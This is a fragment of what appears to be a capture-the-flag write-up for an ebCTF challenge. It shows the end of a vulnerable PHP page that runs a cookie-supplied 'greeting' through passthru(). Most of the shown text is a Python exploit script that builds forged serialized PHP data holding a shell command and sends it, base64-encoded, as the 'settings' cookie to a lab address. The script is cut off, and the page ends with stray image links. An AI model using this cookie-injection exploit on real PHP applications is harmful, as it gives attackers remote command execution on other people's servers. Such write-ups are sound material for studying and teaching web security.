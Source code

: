     passthru($settings['greeting']);
else {
    echo "</pre>
<form action="\&quot;?\&quot;" method="\&quot;POST\&quot;">\n";
 echo "
What is your name?
 
\n";
 echo "<input type="\&quot;text\&quot;" name="\&quot;name\&quot;" />\n";
 echo "<input type="\&quot;submit\&quot;" name="\&quot;submit\&quot;" value="\&quot;Submit\&quot;" />\n";
 echo "</form>
<pre>
\n";
}
?>
{%  endhighlight  %}

 * Exploit:

{%  highlight  python %}
#!/usr/bin/python
import requests
import sys
import urllib
from base64 import b64decode as dec
from base64 import b64encode as enc
 
url = 'http://192.168.184.133/ebctf/mine.php'
 
def Test(x):
    t = "echo 'Hello %s!'" % x
    s = 'a:2:{s:4:"name";s:%s:"%s";s:8:"greeting";s:%s:"%s";}%s' % (len(x),x,len(t),t, 'X'*40)
    for i in xrange(0,len(s),16):
        print s[i:i+16]
    print '\n'
 
def Pwn(s):
    global url
    s = urllib.quote_plus(enc(s))
    req = requests.get(url, cookies = {'settings' : s}).content
 #   if req.find('works') != -1:
    print req
  #  else:
   #     print '[-] FAIL'
 
def GetCookie(name):
    global url
    d = {
        'name':name,
        'submit':'Submit'
    }
    h = requests.post(url, data = d, headers = {'Content-Type' : 'application/x-www-form-urlencoded'}).headers
    if h.has_key('set-cookie'):
        h = dec(urllib.unquote_plus(h['set-cookie'][9:]))
        #h = urllib.unquote_plus(h['set-cookie'][9:])
        #print h
        return h
    else:
        print '[-] ERROR'
        sys.exit(0)

[1]: https://wx4.sinaimg.cn/large/ee2fecafly1g3qquj94euj20gp06qglh.jpg
[2]: https://wx2.sinaimg.cn/large/ee2fecafly1g3qqujql6lj20gp06qglh.jpg
[3]: https://wx2.sinaimg.cn/large/ee2fecafly1g3qquk1y90j20lo09lt97.jpg
[4]: https://wx3.sinaimg.cn/large/ee2fecafly1g3qqukivxnj20hc00xwf3.jpg
[5]: https://wx2.sinaimg.cn/large/ee2fecafly1g3qqumouu7j20hc09u79h.jpg
[6]: https://wx2.sinaimg.cn/large/ee2fecafly1g3qquo6mdsj20hc03ldi2.jpg     
